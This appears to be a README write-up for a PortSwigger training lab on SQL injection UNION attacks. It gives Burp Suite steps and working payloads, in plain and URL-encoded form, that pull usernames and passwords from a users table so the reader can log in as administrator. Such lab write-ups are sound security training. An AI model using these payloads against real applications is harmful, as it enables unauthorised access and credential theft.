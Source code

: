 # Lab 5: SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
> Manual:
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: ```'+UNION+SELECT+'abc','def'--```
3. Use the following payload to retrieve the contents of the users table: ```'+UNION+SELECT+username,+password+FROM+users--```
4. erify that the application's response contains usernames and passwords.

> Scripting the attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/Lab-05/sqli-lab-05.py)


## Payload

- Normal: ```' UNION SELECT username, password from users--```

- URL-Encoded: ```%27+UNION+SELECT+username,+password%20from%20users%20--```

### Video Solution
1. Manual: [Rana Khalil's Youtube video](https://youtu.be/6Dsj5SqR944)
2. Automating: [Rana Khalil's Youtube video](https://www.youtube.com/watch?v=4sBdD6I7fZI&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=6)

